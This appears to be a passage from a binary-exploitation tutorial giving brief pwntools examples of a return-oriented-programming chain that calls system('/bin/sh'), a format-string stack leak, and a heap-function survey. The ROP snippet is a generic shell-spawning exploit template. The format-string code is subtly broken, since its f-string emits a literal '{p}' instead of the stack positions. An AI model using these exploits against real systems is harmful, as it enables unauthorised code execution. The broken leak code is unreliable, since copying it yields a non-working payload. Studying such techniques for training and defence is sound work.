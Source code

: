 # Advanced Topics (Brief Overview)

### Return Oriented Programming (ROP)

When direct code injection isn't possible due to protections like NX bit:

```python
# File: rop_example.py
#!/usr/bin/env python3

"""
Basic ROP Chain Example
"""

from pwn import *

# Load binary and find gadgets
elf = ELF('./binary')
rop = ROP(elf)

# Build ROP chain to call system('/bin/sh')
binsh = next(elf.search(b'/bin/sh'))  # Find '/bin/sh' string
rop.call('system', [binsh])

# Create payload
offset = 40
payload = b'A' * offset + rop.chain()
```

### Format String Exploitation

Advanced technique for information leaks and arbitrary writes:

```python
# File: format_string_advanced.py
#!/usr/bin/env python3

"""
Format String Exploitation Example
"""

from pwn import *

def leak_stack(p, positions):
    """Leak stack values at specific positions"""
    payload_str = 'AAAA' + ''.join([f'%{{p}}$p,' for p in positions])
    payload = payload_str.encode()

    p.sendline(payload)
    response = p.recvline()

    # Parse leaked addresses
    leaked = []
    for addr_str in response.split(b',')[:-1]:
        if addr_str.startswith(b'0x'):
            leaked.append(int(addr_str, 16))

    return leaked

# Example usage for leaking addresses
# p = process('./format_vuln')
# addresses = leak_stack(p, [6, 7, 8, 9, 10])
```

### Heap Exploitation

Advanced topic involving dynamic memory corruption:

```python
# File: heap_exploitation_basics.py
#!/usr/bin/env python3

"""
Basic Heap Exploitation Concepts

Common heap vulnerabilities:
1. Use After Free (UAF)
2. Double Free
3. Heap Overflow
4. Format String on Heap
"""

# Example of detecting heap vulnerabilities
def analyze_heap_functions(binary_path):
    """Analyze binary for heap-related functions"""
    dangerous_funcs = [
        'malloc', 'free', 'realloc', 'calloc',
        'new', 'delete'  # C++ operators
    ]

    elf = ELF(binary_path)
    found_funcs = []

    for func in dangerous_funcs:
        if func in elf.got:
            found_funcs.append(func)

    return found_funcs

# Heap exploitation requires deep understanding of:
# - Heap internals (glibc malloc, ptmalloc2)
# - Chunk structures
# - Free list management
# - Heap metadata corruption techniques
```
